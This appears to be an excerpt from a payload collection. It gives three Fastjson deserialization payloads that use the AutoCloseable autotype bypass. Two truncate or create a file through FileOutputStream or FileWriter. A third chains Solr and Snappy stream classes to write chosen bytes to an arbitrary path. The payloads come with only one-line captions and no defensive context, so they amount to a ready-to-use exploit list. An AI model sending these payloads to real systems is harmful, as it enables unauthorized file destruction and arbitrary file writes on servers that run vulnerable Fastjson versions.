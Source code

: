 ```java
{
    "@type":"java.lang.AutoCloseable",
    "@type":"java.io.FileOutputStream",
    "file":"/tmp/nonexist",
    "append":false
}
```

 - AutoCloseable Clear the specified file

```java
{
    "@type":"java.lang.AutoCloseable",
    "@type":"java.io.FileWriter",
    "file":"/tmp/nonexist",
    "append":false
}
```

 - AutoCloseable any file writing

```java
{
    "stream":
    {
        "@type":"java.lang.AutoCloseable",
        "@type":"java.io.FileOutputStream",
        "file":"/tmp/nonexist",
        "append":false
    },
    "writer":
    {
        "@type":"java.lang.AutoCloseable",
        "@type":"org.apache.solr.common.util.FastOutputStream",
        "tempBuffer":"SSBqdXN0IHdhbnQgdG8gcHJvdmUgdGhhdCBJIGNhbiBkbyBpdC4=",
        "sink":
        {
            "$ref":"$.stream"
        },
        "start":38
    },
    "close":
    {
        "@type":"java.lang.AutoCloseable",
        "@type":"org.iq80.snappy.SnappyOutputStream",
        "out":
        {
            "$ref":"$.writer"
        }
    }
}
```

